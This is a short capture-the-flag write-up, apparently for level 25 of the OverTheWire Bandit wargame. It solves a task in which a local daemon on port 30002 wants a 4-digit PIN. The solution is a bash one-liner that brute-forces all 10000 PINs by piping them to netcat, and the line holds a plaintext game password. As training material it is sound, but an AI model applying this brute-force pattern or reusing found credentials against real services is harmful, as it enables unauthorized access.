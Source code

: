 # Level 25

> A daemon is listening on port 30002 and will give you the password for bandit25 if given the password for bandit24 and a secret numeric 4-digit pincode. There is no way to retrieve the pincode except by going through all of the 10000 combinations, called brute-forcing.

Though this could look nicer as a script, it can be set up as a one-liner:
`for N in {0000..9999}; do echo "UoMYTrfrBFHyQXmg6gzctqAwOmw1IohZ $N"; done | nc localhost 30002`

Remember to pipe into `netcat` *after* generating the lines, if you call nc for each line it will take a lot longer.
